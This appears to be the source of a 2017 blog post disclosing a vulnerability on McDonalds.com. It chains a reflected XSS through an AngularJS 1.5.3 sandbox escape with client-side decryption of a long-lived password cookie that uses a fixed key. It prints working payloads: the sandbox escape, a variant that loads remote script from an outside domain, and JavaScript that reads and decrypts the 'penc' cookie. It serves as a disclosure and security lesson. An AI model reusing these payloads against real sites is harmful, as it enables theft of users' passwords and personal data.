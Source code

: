 ```yaml
---
title: Stealing passwords from McDonald's users
subtitle: Reflected XSS through AngularJS sandbox bypass causes password exposure of McDonald users
description: By abusing an insecure cryptographic storage vulnerability and a reflected server cross-site-scripting vulnerability it is possible to steal and decrypt the password from a McDonald's user.
date: 2017-01-06 00:31:42
---
```


By abusing an insecure cryptographic storage vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2007-Insecure_Cryptographic_Storage" %}) and a reflected server cross-site-scripting vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)" %}) it is possible to steal and decrypt the password from a McDonald's user. Besides that, other personal details like the user's name, address & contact details can be stolen too.

### Proof of Concept

#### Reflected XSS through AngularJS sandbox escape
McDonalds.com contains a search page which reflects the value of the search parameter (`q`) in the source of the page. So when we search on for example `***********-test-reflected-test-***********`, the response will look like this:

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-1" "search-value-test-preview.png" "Text on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-1" "search-value-test-reflected.png" "Text in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses AngularJS so we can try to print the unique scope ID using the search value. We can do this by changing the `q` parameter value to `{% raw %}{{$id}}{% endraw %}`. As we can see `{% raw %}{{$id}}{% endraw %}` gets converted to `9` the unique ID (monotonically increasing) of the AngularJS scope.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-preview.png" "Unique ID on website" %}{% raw %}
		{% endraw %}{% customlightbox "step-2" "search-value-angular-id-reflected.png" "Unique ID in HTML" %}{% raw %}
	</div>
</div>
{% endraw %}

Using `{% raw %}{{alert(1)}}{% endraw %}` as value wouldn't work because all AngularJS code is executed in a sandbox. However, the AngularJS sandbox isn't really safe. In fact, it shouldn't be trusted at all. It even got removed in version 1.6 ({% customlink "https://docs.angularjs.org/guide/security#sandbox-removal" %}) because it gave a false sense of security. PortSwigger created a nice blog post about escaping the AngularJS sandbox ({% customlink "http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html" %}).

We first need to find the AngularJS version of McDonalds.com. We can do this by executing `angular.version` in the console.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-3" "angular-version.png" "Angular version" %}{% raw %}
	</div>
</div>
{% endraw %}

The version is 1.5.3, so the sandbox escape we need is `{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}{% endraw %}`. We can use this sandbox escape as search value, which results in an alert.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-4" "alert-1-in-chrome.png" "Alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

We can even load external JavaScript files using the following sandbox escape, which results in the alert below.

    {% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/external-alert.js`)');}}{% endraw %}` 

The JavaScript can be loaded from another domain since McDonald's doesn't exclude it using the `Content-Security-Policy` header.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-5" "alert-external-in-chrome.png" "External domain alert using AngularJS sandbox escape" %}{% raw %}
	</div>
</div>
{% endraw %}

### Proof of Concept

#### Stealing the user's password
Another thing I noticed on McDonalds.com was their sign in page which contained a very special checkbox. Normally you can check "Remember me" when signing in, but the McDonald's sign in page gives us the option to remember the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-6" "mcdonalds-login-form.png" "Remember my password checkbox" %}{% raw %}
	</div>
</div>
{% endraw %}

I searched through all the JavaScript for the keyword `password` and I found some interesting code that decrypts the password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-7" "source-search-password.png" "Source code search for `password`" %}{% raw %}
		{% endraw %}{% customlightbox "step-7" "cookie-pass-decrypt-source.png" "Source for decrypting the user's password" %}{% raw %}
	</div>
</div>
{% endraw %}

If there's one thing you shouldn't do, it's decrypting passwords client side (or even storing passwords using two-way encryption). I tried to run the code myself, and it worked!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-8" "decrypt-get-cookie-penc.png" "Decrypting my password using the console" %}{% raw %}
	</div>
</div>
{% endraw %}

The `penc` value is a cookie that is stored for a year. LOL!

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-9" "penc-cookie.png" "The `penc` cookie that is stored for a year" %}{% raw %}
	</div>
</div>
{% endraw %}

McDonald's uses CryptoJS to encrypt and decrypt sensitive data. They use the same `key` and `iv` for every user, which means I only have to steal the `penc` cookie to decrypt someone's password.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-10" "encrypt-decrypt-source.png" "Encrypting and decrypting sensitive data using CryptoJS" %}{% raw %}
	</div>
</div>
{% endraw %}

I tried decrypting my password on the search page using a malicious search payload, but it didn't work. Since the AngularJS sandbox escape payload replaces the `charAt` method with the `join` method, the `getCookie` method failed. The `getCookie` method tries to trim whitespaces from cookie values by checking if `charAt(0)` is a whitespace. In the images below you can see `.charAt(0)` returns a string joined by `0` if executed on the search page.

{% raw %}
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-11" "char-at-fail.png" "The `charAt` method on the search page (fails)" %}{% raw %}
		{% endraw %}{% customlightbox "step-11" "char-at-success.png" "The `charAt` method on the homepage (success)`" %}{% raw %}
	</div>
</div>
{% endraw %}

I wrote some JavaScript that loads the homepage in an iframe and steals the cookie using that iframe. Since the payload is executed multiple times because of the sandbox escape, I keep track of the variable `xssIsExecuted`, so that the payload is only executed once.

{% highlightcode javascript %}
	if (!window.xssIsExecuted) {
	    window.xssIsExecuted = true;

	    var iframe = $('<iframe src="https://www.mcdonalds.com/us/en-us.html"></iframe>');
	    $('body').append(iframe);

	    iframe.on('load', function() {
	        var penc = iframe[0].contentWindow.getCookie('penc');
	        alert(iframe[0].contentWindow.decrypt(penc));
	    });
	}
{% endhighlightcode %}

We can now use the following sandbox escape, which results in my password in an alert box!

{% raw %}{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=$.getScript(`https://finnwea.com/snippets/mcdonalds-password-stealer.js`)');}}{% endraw %}

{% raw %}
<p></p>
<div class="row img-carousel">
	<div class="col-md-12">
		{% endraw %}{% customlightbox "step-12" "alert-my-password.png" "My password!" %}{% raw %}
	</div>
</div>
{% endraw %}

That was all pretty easy. I tried to contact McDonald's multiple times to report the issue, but unfortunately they didn't respond, which is why I decided to disclose the vulnerability.